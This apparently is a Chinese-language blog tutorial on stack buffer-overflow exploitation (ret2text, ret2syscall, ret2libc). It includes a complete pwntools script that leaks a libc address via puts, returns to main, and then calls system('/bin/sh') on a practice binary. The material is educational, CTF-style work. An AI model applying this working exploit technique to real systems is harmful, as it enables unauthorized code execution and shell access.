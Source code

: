 Title: How2Stack
Date: 2018-04-05 09:00:17.387858
Modified: 2018-04-05 09:00:17.387858
Category: stack
Tags: stack,linux
Slug: how2stack
Authors: Alset0326
Summary: How to stack

[TOC]

尝试顺序

ret2text(system,'/bin/sh')->ret2syscall->ret2libc

# 0.0 Return 2 libc

ret2libc即控制流程使得执行 libc中的函数，通常是ret至某个函数的plt处或者函数的具体位置(即libc中的位置，可由got表泄露并计算)。

一般情况下，我们会选择执行system("/bin/sh")，故而此时我们需要知道system函数的地址。

**通常我们ret至plt来调用需要的导入函数（例如puts和gets），这里需要注意函数调用栈的结构，plt的代码通常是使用call跳过来的，因此ret返回到的plt中时，相当于已经执行了call，这时栈顶应该是一个返回地址，参数（rdi、rsi、rdx…）已经被填好，（如果是x86，返回地址后是对应的参数内容，因此栈顶的返回地址需要指向pop的gadget）。**

## 使用`puts/write`函数泄露数据

当原二进制中没有system时，一般需要泄露libc基址，通常会ret至plt['puts']，使用`puts`函数泄露相关信息，这里需要将参数（rdi、rsi、rdx…）事先填好。

这里介绍一个二次触发漏洞的技巧，一般流程，代码为x86：

- 泄露__libc_start_main地址，因为该地址肯定初始化了
- 获取libc版本
- 获取system地址与/bin/sh的地址
- **再次执行源程序**
- 触发栈溢出执行system(‘/bin/sh’)

```python
##!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```
